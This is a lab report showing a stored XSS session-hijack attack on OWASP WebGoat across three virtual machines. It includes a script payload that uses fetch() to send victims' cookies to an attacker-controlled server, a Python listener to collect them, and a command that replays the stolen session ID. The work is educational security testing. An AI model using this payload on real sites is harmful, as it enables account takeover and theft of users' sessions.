



# Session Hijack using XSS

The Docsify-This version is available [here](https://docsify-this.net/?basePath=https://raw.githubusercontent.com/stefano-chen/Report-Cybersecurity/main&homepage=home.md#/)

## Introduction
A **Session Hijack** attack exploits the web session control mechanism,tipically managed by a session cookie.
This **session cookie**, generated by the web server and sent to the client browser following successful authentication, is a variable-length string that identifies the session.

Session Hijacking involves compromising this session cookie, either by stealing or predicting a valid session cookie, to gain **unauthorized** access to the Web Server.
There are several common methods for compromising a session cookie, including:
* Predictable session cookie
* Session Sniffing (e.g. Man-in-the-middle, Man-in-the-browser)
* Client-side attacks (e.g. XSS, malicious JavaScript Codes, Trojans)

In this report, we will demonstrate how to perform **Session Hijack using Cross-Site Scripting (XSS)**.

## What is XSS?
Cross-Site Scripting (XSS) attacks are a type of injection where malicious scripts are injected into otherwise benign and trusted websites. These attacks exploit flaws in web applications that use user input in their output without proper validation or encoding.

An attacker can use XSS to send malicious scripts to unsuspecting users. The user's browser, having no way to determine that the script should not be trusted, executes it, allowing the attacker to access cookies or other sensitive information retained by the browser.

XSS attacks are generally categorized into two types: reflected and stored.

* Reflected XSS Attacks: These attacks involve scripts that are reflected off a web server, such as in an error message or search result, where the server includes part or all of the input sent to it in the response. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable web site, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server.

* Stored XSS Attacks: These attacks involve scripts that are permanently stored on the target server, such as in a database, message forum, visitor log, or comment field. The victim retrieves the malicious script from the server when requesting the stored information.

In this experiment, we will use a stored XSS attack to steal a session cookie.

## Experiment
To demonstrate the simplicity and danger of exploiting a website vulnerable to XSS, we will simulate a stored XSS attack on a vulnerable website to obtain the session cookie of an unsuspecting user.

#### Environment
To simulate the attack, we will use:

* [VMware Workstation Player](https://www.vmware.com/content/vmware/vmware-published-sites/us/products/workstation-player/workstation-player-evaluation.html.html.html): A platform for running virtual machine
* [OWASP WebGoat](https://github.com/WebGoat/WebGoat): A deliberately insecure web application designed to teach web application security lessons
* [Python3](https://www.python.org/about/gettingstarted/): To generate an attacker-controlled HTTP server


We will use three virtual machines:

1. [Kali Linux](https://www.kali.org/get-kali/#kali-platforms) as attacker machine with Python3 installed
2. [Ubuntu](https://ubuntu.com/download/desktop) as Web Server with OWASP WebGoat installed.
3. [Windows](https://www.microsoft.com/en-us/software-download/windows10) as victim machine


#### Network Setup
The virtual machines have the following IP addresses and are inside a [NAT](https://docs.vmware.com/en/VMware-Workstation-Player-for-Windows/17.0/com.vmware.player.win.using.doc/GUID-37EA4A9D-DE43-4159-8982-2DFD9D5959AD.html) network:

| O.S. | IP addresss | Subnet Mask|
| ------ | ----------- | ---- |
| Kali   | 192.168.28.133 | 255.255.255.0 |
| Ubuntu   | 192.168.28.132 | 255.255.255.0 |
| Windows   | 192.168.28.134 | 255.255.255.0 |

### Phase 1: Ping
To test the machine's connectivity we perform the following ping commands:

On Kali Linux:
```bash
$ ping -c4 192.168.28.132
```

On Windows:
```powershell
> ping 192.168.28.132
```

### Phase 2: Run WebGoat
To run WebGoat on Ubuntu, use the following command:
```bash
$ sudo docker run --name webgoat -it -p 192.168.28.132:8080:8080 webgoat/webgoat
```
This sets up Ubuntu as the web server, with OWASP WebGoat running on port 8080.

### Phase 3: Attacker Account
To access WebGoat from Kali, open a browser and type the following URL:
```url
http://192.168.28.132:8080/WebGoat/
```
 
Let's create an account using the register button:
 

### Phase 4: Identify XSS Vulnerability
Navigate to:
```
(A3) Injection > Cross Site Scripting (stored)
```

This page simulates a forum where any registered user can write comments.

To verify if the page is vulnerable to XSS attacks, write the following comment in the input field.
```html
<strong> Hello World </strong>
```

As we can see, the comment body recognized the htlm tags, indicating that the input is not sanitized. 
We can exploit this weakness by injecting some malicious script.

### Phase 5: Payload Injection
Write the following comment:
```javascript
<script>fetch("http://192.168.28.133:9000/?cookie=" + document.cookie)</script>
```

This payload is permanently stored in the website's database. Every time a user views this comment, their browser will send all stored cookies to the attacker's server via an HTTP request.

### Phase 6: Attacker Controlled Server
To open an HTTP server on Kali, use the following command:
```bash
python3 -m http.server --bind 192.168.28.133 9000
```

Now the attacker only needs to wait for http requests

### Phase 7: Target Access Comment
An unsuspecting user (Windows VM) access WebGoat and reads the malicious comment:

The target's cookie is stolen without their knowledge.

### Phase 8: Use Session Cookie
With the obtained session cookie, the attacker can impersonate the target using the following command in the Firefox debugger console:
```javascript
document.cookie="JSESSIONID=VTEZoDF-sff80Wp4eXg4GVI_yb8-kn5yPlZQ-IvJ"
```


## Conclusion
The experiment illustrates the ease with which a stored XSS attack can be used to perform session hijacking, revealing significant vulnerabilities in web applications that fail to properly sanitize user inputs. By injecting a malicious script into a vulnerable web application, an attacker can steal session cookies from unsuspecting users, allowing the attacker to impersonate the victim and gain unauthorized access to sensitive information and functionalities within the web application.


## References (and Ispiration)
* Exploiting XSS-stealing cookies, https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
* Cross Site Scripting, https://owasp.org/www-community/attacks/xss/
* Cross-Site Scripting Explained and Demostrated, https://youtu.be/PPzn4K2ZjfY?si=7MS2tBcXuaxEAoRR
* Session Hijacking Attack, https://owasp.org/www-community/attacks/Session_hijacking_attack